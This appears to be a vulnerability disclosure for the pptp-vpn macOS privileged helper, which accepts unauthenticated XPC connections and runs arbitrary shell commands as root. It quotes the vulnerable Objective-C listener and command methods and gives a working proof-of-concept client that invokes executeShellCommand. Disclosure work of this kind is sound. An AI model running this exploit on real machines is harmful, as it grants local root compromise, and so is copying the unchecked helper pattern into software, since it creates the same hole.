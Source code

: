 # Privileged helper accepts unauthenticated XPC connections and executes arbitrary shell commands

## Summary

The `com.cxy.PPTPVPN.HelpTool` privileged helper (macOS) accepts any incoming NSXPCConnection without verifying the client identity. The helper exports an interface that allows callers to run arbitrary shell commands using `NSTask`, `system()` and `NSAppleScript`. A local attacker who can connect to the helper’s Mach service (`com.cxy.PPTPVPN.HelpTool`) can execute commands with the helper’s privileges (root). This enables local privilege escalation and arbitrary code execution as the helper user.


## Technical Details

The root cause of this vulnerability lies in the listener(shouldAcceptNewConnection:) this unconditionally accepts all incoming XPC connections by returning YES (or true), without verifying whether the sender is the legitimate main application. This allows any application on the system including malicious ones to interact with the helper.


This implementation has no verification. 
```objc
- (BOOL)listener:(NSXPCListener *)listener shouldAcceptNewConnection:(NSXPCConnection *)newConnection
// Called by our XPC listener when a new connection comes in.  We configure the connection
// with our protocol and ourselves as the main object.
{
    assert(listener == self.listener);
#pragma unused(listener)
    assert(newConnection != nil);
    
    newConnection.exportedInterface = [NSXPCInterface interfaceWithProtocol:@protocol(HelperToolProtocol)];
    newConnection.exportedObject = self;
    [newConnection resume];
    
    return YES;
}
```

The exported protocol [HelperToolProtocol.h](https://github.com/iHongRen/pptp-vpn/blob/6449cd6bb45016e7af59f4925d35ef080572e94c/HelpTool/HelperTool.h) exposes the following methods that accept arbitrary input and are executed by the helper:

```objc
- (void)executeShellPath:(NSString*)path arguments:(NSArray*)args withReply:(void(^)(NSError *error,NSString *outputString))reply;
- (void)executeShellCommand:(NSString*)command withReply:(void(^)(NSDictionary * errorInfo))reply;
- (void)executeShellSystemCommand:(NSString *)command withReply:(void (^)(NSInteger))reply;
```


https://github.com/iHongRen/pptp-vpn/blob/6449cd6bb45016e7af59f4925d35ef080572e94c/HelpTool/HelperTool.m - L54 - 95
```objc

#pragma mark - protocol
- (void)executeShellPath:(NSString*)path arguments:(NSArray*)args withReply:(void(^)(NSError *error, NSString *outputString))reply {
    
    dispatch_async(dispatch_get_global_queue(0, 0), ^{
        NSTask *task = [NSTask new];
        task.launchPath = path;
        task.arguments = args;

        NSPipe *pipe = [NSPipe pipe];
        [task setStandardOutput:pipe];

        [task setStandardError:[NSPipe pipe]];
        NSError *err;
        [task launchAndReturnError:&err];
        [task waitUntilExit];

        NSData *outputData = [[task.standardOutput fileHandleForReading] readDataToEndOfFile];
        NSString *output = [[NSString alloc] initWithData:outputData encoding: NSUTF8StringEncoding];
        !reply?:reply(err, output);
    });
}


- (void)executeShellCommand:(NSString*)command withReply:(void(^)(NSDictionary * errorInfo))reply {
    dispatch_async(dispatch_get_global_queue(0, 0), ^{
        NSString *script = [NSString stringWithFormat:@"do shell script \"%@\"",command];
        NSAppleScript *appleScript = [[NSAppleScript alloc] initWithSource:script];
        NSDictionary *dicError = nil;
        [appleScript executeAndReturnError:&dicError];
        !reply?:reply(dicError);
    });
}

- (void)executeShellSystemCommand:(NSString *)command withReply:(void (^)(NSInteger))reply {

    dispatch_async(dispatch_get_global_queue(0, 0), ^{
        int res = system([command UTF8String]);
        !reply?:reply(res);
    });
}

@end
```

This allows any local process to gain root privileges by sending a crafted request.


## PoC

**PoC**

1. create a minimal Objective-C (or Swift) XPC client that connects to the Mach service `com.cxy.PPTPVPN.HelpTool`,
2. invoke the exported method `executeShellCommand:` or `executeShellPath:arguments:` with a command like `id` or `whoami` and observe privileged output.


```objc
#import <Foundation/Foundation.h>

// define protocol, or else we have to add - #import "HelperToolProtocol.h"
@protocol HelperToolProtocol

- (void)executeShellPath:(NSString *)path
               arguments:(NSArray *)args
              withReply:(void(^)(NSError *error, NSString *outputString))reply;

- (void)executeShellCommand:(NSString*)command
                  withReply:(void(^)(NSDictionary * errorInfo))reply;

- (void)executeShellSystemCommand:(NSString *)command
                        withReply:(void (^)(NSInteger))reply;

@end


int main(int argc, const char * argv[]) {
    @autoreleasepool {
        NSXPCConnection *conn = [[NSXPCConnection alloc] initWithMachServiceName:@"com.cxy.PPTPVPN.HelpTool" options:0];
        conn.remoteObjectInterface = [NSXPCInterface interfaceWithProtocol:@protocol(HelperToolProtocol)];
        [conn resume];

        id proxy = [conn remoteObjectProxyWithErrorHandler:^(NSError * _Nonnull error) {
            NSLog(@"XPC error: %@", error);
        }];

        // Call the method that executes a shell command on the helper side
        [proxy executeShellCommand:@"id" withReply:^(NSDictionary * errorInfo) {
            if (errorInfo) {
                NSLog(@"Error: %@", errorInfo);
            } else {
                NSLog(@"Command executed (check output / logs).");
            }
            exit(0);
        }];

        [[NSRunLoop currentRunLoop] run];
    }
    return 0;
}
```

## Impact

Local privilege escalation: an attacker with a local account can execute arbitrary commands as the privileged helper. This can lead to full system compromise.



## Info

Affected Version: v1.0.1

(Affected repository: `iHongRen/pptp-vpn`, [HelpTool](https://github.com/iHongRen/pptp-vpn/tree/6449cd6bb45016e7af59f4925d35ef080572e94c/HelpTool) component; [HelpTool.m](https://github.com/iHongRen/pptp-vpn/blob/6449cd6bb45016e7af59f4925d35ef080572e94c/HelpTool/HelperTool.m) CFBundleIdentifier: `com.cxy.PPTPVPN.HelpTool`.)
